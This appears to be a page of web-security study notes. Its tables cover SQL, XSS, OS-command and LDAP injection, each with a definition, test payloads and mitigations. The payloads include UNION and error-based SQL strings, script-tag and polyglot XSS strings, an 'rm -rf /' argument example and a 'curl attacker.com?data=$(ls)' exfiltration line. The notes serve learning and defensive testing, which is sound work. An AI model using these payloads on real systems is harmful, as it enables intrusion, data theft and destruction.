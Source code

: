| **Blind SQLi**        | No direct errors; infer results via boolean or time delays.                | Test with `' AND 1=1 --` (true) vs. `' AND 1=2 --` (false). Time-based: `SLEEP(5)`. | Implement **input validation** and **Web Application Firewalls (WAFs)**.   |
| **Union-Based SQLi**  | Uses `UNION` to combine queries and extract data.                          | Inject `' UNION SELECT username, password FROM users --`.                       | Disable error messages; use **ORM frameworks**.                            |
| **Error-Based SQLi**  | Forces DB errors to leak schema/data.                                      | Trigger errors with `' AND 1=CONVERT(int,@@version) --`.                        | Configure DB to suppress detailed errors.                                  |
| **Out-of-Band SQLi**  | Exfiltrates data via DNS/HTTP requests.                                    | Use tools like `Burp Collaborator` with `LOAD_FILE()` or `xp_dirtree`.          | Block outbound DB connections; sanitize inputs.                            |

### Cross-Site Scripting (XSS)
- **DOM-based XSS** occurs when JavaScript on the client side takes untrusted user input (like from the URL) and writes it directly into the DOM without proper sanitization. This allows attackers to inject and execute malicious scripts in the browser.

| Subtype               | Definition                                                                 | Detection Method                                                                 | Mitigation                                                                 |
|-----------------------|---------------------------------------------------------------------------|---------------------------------------------------------------------------------|----------------------------------------------------------------------------|
| **Stored XSS**        | Malicious script stored on server (e.g., in comments).                     | Submit `<script>alert(1)</script>` in input fields; check persistence.          | Use **output encoding** (HTML Entity Encoding).                            |
| **Reflected XSS**     | Script reflected in immediate response (e.g., search results).             | Test URL params: `?q=<script>alert(1)</script>`.                                | Implement **Content Security Policy (CSP)**.                               |
| **DOM XSS**           | Client-side JS manipulates DOM unsafely.                                   | Analyze `document.write()` or `eval()` sinks in JS.                             | Avoid unsafe DOM APIs; use `textContent` over `innerHTML`.                 |
| **Mutated XSS**       | Bypasses filters via obfuscation (e.g., `<img src=x onerror=alert(1)>`).   | Fuzz with polyglots like `jaVasCript:/*--></title></style></textarea></script>`.| Use **XSS filters** (e.g., DOMPurify).                                     |

### OS Command Injection
| Subtype               | Definition                                                                 | Detection Method                                                                 | Mitigation                                                                 |
|-----------------------|---------------------------------------------------------------------------|---------------------------------------------------------------------------------|----------------------------------------------------------------------------|
| **Classic Command Inj.** | Direct execution of OS commands via input (e.g., `; ls /etc`).            | Inject `; whoami` or `\|\| id` in input fields.                                 | Use **allowlist input validation**; avoid `system()` calls.                |
| **Blind Command Inj.**  | No visible output; infer results via delays or out-of-band techniques.     | Test with `ping -c 5 127.0.0.1` (time delay) or `curl attacker.com?data=$(ls)`. | Implement **sandboxed execution** (e.g., containers).                      |
| **Argument Injection**  | Manipulates command arguments (e.g., `tar --file=$(rm -rf /)`).            | Fuzz with `--version` or `$(sleep 5)`.                                          | Use **parameterized APIs** (e.g., `subprocess.run([cmd, arg1, arg2])`).    |


### LDAP Injection
| Subtype               | Definition                                                                 | Detection Method                                                                 | Mitigation                                                                 |
|-----------------------|---------------------------------------------------------------------------|---------------------------------------------------------------------------------|----------------------------------------------------------------------------|
| **Filter Injection**  | Modifies LDAP search filters (e.g., `(uid=*))(\|\|(cn=*))//`).             | Inject `*)(uid=*))(\|\|(1=0` to bypass auth.                                    | Use **LDAP parameterization** (e.g., `escapeDN()`).                        |
| **Attribute Injection** | Injects malicious LDAP attributes (e.g., `admin=true`).                   | Test with `*)(objectClass=*))%00` to truncate filters.                          | Apply **input sanitization** for special chars (`*, (, ), \`, etc.).       |
| **Booleanization**    | Uses LDAP boolean logic to leak data (e.g., `\|\|(mail=*@domain.com)`).    | Probe with `(cn=admin*)(sn=*))` to enumerate users.                             | Limit query results; enforce **access controls**.                          |
#### Finding - Injection
- Fuzz inputs with Burp Suite/SQLMap.
- Test error messages for backend tech leaks.
   - **How to find**: Use tools (sqlmap,Burp Suite), manual payloads, look for error messages.
#### Mitigations -  Injection
- Parameterized queries (Prepared Statement).